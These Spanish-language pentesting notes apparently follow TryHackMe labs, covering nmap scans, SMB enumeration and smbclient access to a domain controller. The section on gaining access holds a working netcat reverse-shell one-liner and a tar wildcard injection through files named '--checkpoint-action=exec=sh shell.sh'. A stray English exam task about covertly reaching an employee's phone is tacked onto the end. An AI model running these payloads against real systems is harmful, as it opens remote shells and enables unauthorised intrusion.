 ```
### El comando anterior te dará la lista de los hosts activos, y se basa en la sala de tryhackem mencionada abajo
```
2. Identificar los puertos relacionados al AD / DC como lo son :  88,135,139,389,445

```
### Ahora hay que escnear los hosts activos para identificar sus servicios
sudo nmap -p 445 -sV 192.168.1.##, 192.168.1.##
sudo nmap -A IpDelServidorConSMB ó utilizar -sC     #Ya que nos dará información como saber si permite ingresar con el usuario guest o anonymo
### El comando anterior escaneara cuales son los hosts que tiene activos los servicios especificados, el que cuente con los servicios especificados es probable que sea el Domain Controller
```
3. Enumerar la SMB
```
#Se hace con el siguiente comando
enumlinux IP

#Nos dará información valiosa como las rutas de la SMB, quizas algun usuario, con la información que nos arroje podemos utilizar otro tipo de ataques u objetner información valiosa

```
  
4. Acceder a la SMB
```
# Con el siguiente comando podemos ingresar a la SMB
smbclient //IP/Path                        #Con usuario guest
smbclient -U milesdyson //$ip/milesdyson   #Especificando algun usuario
```
5. Dependiento las rutas a las que se tienen acceso o la información que se pueda acceder a la SMB cambiará el procedimiento
```
A continuación un código que ayuda a hacer un reverse shell desde un cronjob 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.59.134 9999 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1" 

```
6. Descrifrar archivo
Depende con que herramienta fue cidrado el archivo, por lo que habra que identificar

**Links recomendados**
+ https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-smb
**Sala recomendadas:** 
+ https://tryhackme.com/r/room/skynet
+ https://tryhackme.com/r/room/nerdherd

### 5. An insider attack has been identified in one of the employees mobile device in 192.168.0.0/24 subnet. You are assigned to covertly access the users device and obtain malicious elf files stored in a folder “Scan”. Perform deep scan on the elf files and obtain the last 4 digits of SHA384 hash of the file with highest entropy value.
